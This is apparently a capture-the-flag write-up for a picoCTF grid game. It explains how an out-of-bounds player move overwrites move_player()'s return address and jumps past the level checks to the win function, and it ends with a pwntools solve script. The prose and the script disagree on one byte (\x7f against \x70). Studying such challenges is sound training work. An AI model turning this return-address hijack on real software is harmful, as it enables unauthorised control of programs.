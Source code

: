 We do this by jumping past the level win condition logic for check and instead into the line where it increments the curr value

We can do this by taking some similar approach to babygame02 where we hijack the return address of the ``move_player()`` function to return to the line where it gives us a win.

So let us first calculate this for the move_player return address using ghidra.

![image](https://github.com/user-attachments/assets/827756a0-3b52-4efc-b434-27867d66b540)

![image](https://github.com/user-attachments/assets/5fb27694-9ede-494a-b30a-d86d529eb92e)

```
EBP 4 bytes
EBX 4 bytes
ECX 4 bytes
^
|
| 2736
|
v
param EDX (EBP - 2732) 4 bytes
param EDX (EBP - 2713) 23 bytes
param EAX (EBP - 2728) 8 bytes
return address(0804992c) 4 bytes
```



All the bytes add upto -51 bytes offset. ``4*3 + 4 + 23 + 8 + 4`` from this we understand we need to offset from the first row 51 times to the left of [0][0] whcih eventually lets our user player end up at the position [0][39].
as we need lives we do the ``aaaaaaaaawwwws`` and as we need to make it go to the 39th array index we can input D 44 times after having done this. 
However doing this makes it wrap going to the next row so we pass w to go up then we need to underflow the lsb of the address of the line of winning which is found here -> and is of the address ``0804997f``

![image](https://github.com/user-attachments/assets/68b7bc90-7f3e-4e50-bad5-717a2214c241)

![image](https://github.com/user-attachments/assets/862442bc-1c7f-4ac5-b54e-7ee9725032db)

We can do this by entering``l\x7f`` this changes the lsb of the address. Then we have to pass w again to enter the return condition bypassing level 4 and incrementing us to level 5.

Now that we have incremented our value of the checker and current level to the required ones for printing the flag we can again abuse the return address of move_player and use it to enter the address of the ``win`` function which is -> ``08049afe`` I tried using the ``08`` and the ones prior but it seems as though ``fe`` allows it to faull through the win condition returning us the flag.

![image](https://github.com/user-attachments/assets/879d5d8c-67e2-4d61-af61-0f4d00607355)

Hence I made a script to solve this automatically.
```python
from pwn import *

p = remote("rhea.picoctf.net", 50108)

p.sendline("aaaaaaaaawwwwsp")
p.sendline("aaaaaaaaawwwwsp")  
p.sendline("aaaaaaaaawwwwsp")  
p.sendline("aaaaaaaaawwwws" + ("d" * 44) + "wl\x70w")  
p.sendline("aaaaaaaaawwwws" + ("d" * 28) + "wl\xfew")
           
p.interactive()

```
